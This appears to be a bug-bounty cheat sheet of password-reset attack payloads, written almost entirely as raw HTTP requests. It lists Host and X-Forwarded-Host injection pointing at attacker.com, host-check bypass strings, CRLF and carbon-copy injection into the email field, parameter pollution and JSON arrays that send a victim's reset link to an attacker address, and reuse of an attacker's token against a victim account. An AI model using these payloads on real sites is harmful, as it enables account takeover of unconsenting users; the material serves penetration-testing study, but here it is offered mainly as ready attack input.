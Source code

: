 ##### HOST HEADER INJECTION
````
POST /reset
HOST: attacker.com
````

##### OVERRIDE HOST HEADER
````
POST https://target.com/reset
HOST: attacker.com
````

##### AMBIGUATE HOST HEADER
````
POST /reset
HOST: target.com@attacker.com


HOST: target.com:@attacker.com
HOST: target.com: attacker.com
````
##### other techniques
````
POST @attacker.com/reset
HOST: target.com


POST /reset@attacker.com#
HOST: target.com
````
##### DOUBLE HOST
````
POST /reset
HOST: target.com
HOST: attacker.com


add space in the host
POST /reset
HOST: target.com
 HOST: attacker.com

````
##### X-FORWARDED-FOR
````
POST /reset
HOST: attacker.com
X-FORWARDED-HOST: attacker.com



POST /reset
HOST: attacker.com
X-FORWARDED-HOST: target.com


POST /reset
HOST: target.com
X-FORWARDED-HOST: attacker.com
Referer: https://attacker.com


POST /reset
HOST: target.com
X-FORWARDED-HOST: attacker.com
X-FORWARDED-FOR: attacker.com



POST /reset
HOST: target.com
X-FORWARDED-HOST: 0177.1
X-FORWARDED-FOR: 0177.1
````


##### Bypassing regex check on the host header
````
- target.com.attacker.com
- attacker.com/target.com
- attacker.com%23@target.com
- attacker.com%25%32%33@target.com


````
##### PARAMETER FUZZING USING BURP PARAMINER
 ````
 POST /reset
HOST: target.com

FUZZ 
 ````
 
 ##### SIGNING UP WITH TAMPERED EMAIL
 signup with email samsec@gmail.com.id.burpcollaborator.net and reset password for this email.
  we will recieve requests from internal server + SMTP connection details. and also we may get Internal headers + origin IP
   ````
   http://site.com/admin = (403)
   http://site.com/admin = (Headers + Origin IP = pwn)
   ````
 ````
 POST /reset
 
 email=test@123.burpcollaborator.net
 ````
 ##### EMAIL TAMPERING TO RECEIVE PASS RESET LINK IN ATTACKER EMAIL
 CRLF AND CARBON COPY INJECTION
 ````
 POST /reset
 HOST: target.com
 
 email=victim@gmail.com%0a%0dcc:attacker.com
 ````
 
 
 another methods
 - PARAMETER POLLUTION
```` email=victim@gmail.com&email=attacker@gmai.com````
 - SENDING TWO EMAIL AS ARRAY IN JSON AND ALSO CHANGING CONTENT-TYPE TO application/json
    ```` 
    POST /reset
    HOST: target.com
    Content-Type: application/json
    
    
    {"email":["victim@gmail.com","attacker@gmail.com"]}

    ````
 - using separator , | OR  %20
  ```` email=victim@gmail.com,attacker@gmail.com ````
  
  #### APPENDING .JSON TO THE ENDPOINT
  this may give the token in response
  ````
  POST /reset.json
  HOST: target.com
  ````
  #### CRLF IN THE ROUTE
  ````
  POST /reset?%oa%odHost:attacker.com
  Host: target.com
  ````
#### CHANGING REQUEST METHOD
````
PUT /reset
host: target.com
Content-Type: application/json

email= victim@gmail.com
````
#### see response after sending email in reset endpoint , it may leak email and token

### /reset/changepass

put unused token of attacker@gmail.com after issuing reset pass in the field of victim's change pass request
````
POST /reset/change
Host: target.com

email=victim@gmail.com&token=[attacker_token]&old_pass=a&new_pass=b


````
#### Add Email parameter if there isn't email in request of reset/changepass
````
POST /reset/change
Host: target.com


added="email:victim@gmail.com"&token=token


````
### Observing the token that is generated for pass reset.
Send the password reset request link using intruder, so that the time duration between creating tokens is small and observe the difference in part of the pass reset.
Insert payload as  attacker@gmail.com, victim@gmail.com and run the intruder.
`https://infosecwriteups.com/how-i-was-able-to-take-over-any-account-via-the-password-reset-functionality-ef1659f8b481` Read this article.

